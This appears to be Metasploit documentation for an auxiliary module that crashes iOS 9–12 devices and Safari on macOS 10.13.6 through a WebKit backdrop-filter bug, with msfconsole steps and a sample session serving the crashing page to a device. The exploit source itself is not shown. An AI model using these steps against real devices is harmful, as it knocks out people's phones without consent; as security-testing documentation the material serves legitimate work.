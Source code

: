 ## Vulnerable Application

This module exploits a vulnerability in Safari WebKit to crash the device.
The bug affects all iOS devices running iOS 9 up to iOS 12 and Safari on OSX 10.13.6

The device will "re-spring" the operating system, but not actually restart the device.

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/dos/apple_ios/webkit_backdrop_filter_blur`
1. Do: `set URIPATH /` (Optional)
1. Do: `run`
1. When you visit the page on a vulnerable device, it should crash the operating system

## Scenarios

### Safari 602.1 on iOS 10.1.1

```
msf5 > use auxiliary/dos/apple_ios/webkit_backdrop_filter_blur
msf5 auxiliary(dos/apple_ios/webkit_backdrop_filter_blur) > set URIPATH /
URIPATH => /
msf5 auxiliary(dos/apple_ios/webkit_backdrop_filter_blur) > run

[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.1:8080/
[*] Server started.
[*] 192.168.0.2: Sending response to User-Agent: Mozilla/5.0 (iPod touch; CPU iPhone OS 10_1_1 like Mac OS X) AppleWebKit/602.2.14 (KHTML, like Gecko) Version/10.0 Mobile/14B150 Safari/602.1

```
